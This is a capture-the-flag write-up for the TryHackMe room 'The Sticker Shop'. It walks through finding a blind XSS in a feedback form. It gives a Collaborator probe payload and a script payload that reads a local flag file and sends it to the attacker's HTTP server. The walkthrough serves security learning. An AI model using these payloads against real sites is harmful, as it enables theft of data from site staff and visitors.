 ```yaml
---
title: "TryHackMe: The Sticker Shop"
excerpt: "Full Writeups for tryhackme lookup room. 🤗"
toc: true
toc_sticky: true

categories:
  - TryHackMe

last_modified_at: 2024-11-30T12:53:00-05:00

---
```


**The Sticker Shop** is a easy room on Tryhackme . In this We have given flag location on website only we have to retrive it 

## Website Overview
The website consists of two pages - 
### Home Page
- Displays a simple interface with cat stickers etc.
- No vulnerabilities were found here.

### Submit Feedback Page
- Contains a feedback form with a textarea for users to submit their comments.
- The form sends a POST request to /submit_feedback.

### Initial Observations
The feedback form allows user-supplied input, which could be a potential injection point for attacks like Cross-Site Scripting (XSS).

The response to a normal feedback submission is: `Thanks for your feedback! It will be evaluated shortly by our staff`.

Try Normal Paylaod first :
```console
'"><script>alert(1)</script>
```
![Web 80 Index](/images/Posts/tryhackme_sticker_shop/Website.webp){:width="1200" height="600" }

## Blind XSS Discovery
1. used Burp-collaborator to check if the Blind XSS is exsist or not
2. Payload used : 
```console
'"><script src=https://xyzh5f7ugxnj7919kl6eqcaohfn6bxzm.oastify.com></script>`
```

![Web 80 Index](/images/Posts/tryhackme_sticker_shop/Blind%20XSS.webp){: width="1200" height="600" }
![Web 80 Index](/images/Posts/tryhackme_sticker_shop/Collaborator.webp){: width="1200" height="600" }

3. After submitting the payload in the feedback form, I observed a DNS interaction logged in Burp Collaborator, confirming the execution of the payload.

## Exploitation
First I setup a Python server on my Kali Linux machine - `python3 -m http.server 8000`

### Crafting the Payload
To exploit the vulnerability, I crafted a JavaScript payload that:

Fetches the flag from the server’s localhost (127.0.0.1:8080/flag.txt).

I used the localhost address because they said that they host everything on the same computer that they use for browsing the internet and looking at customer feedback.

Sends the retrieved content to my HTTP server.

```console
'"><script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://10.8.6.102:8000/?flag=' + encodeURIComponent(data));
    });
</script>
```
Note: Edit and Replace your own IP Address.


### Injecting the Payload
I submitted the payload in the feedback form.
Shortly after, my HTTP server captured the exfiltrated flag in the query string of an incoming GET request.
![Web 80 Index](/images/Posts/tryhackme_sticker_shop/Flag.webp){: width="1200" height="600" }

After URL Decodes it We get The flag

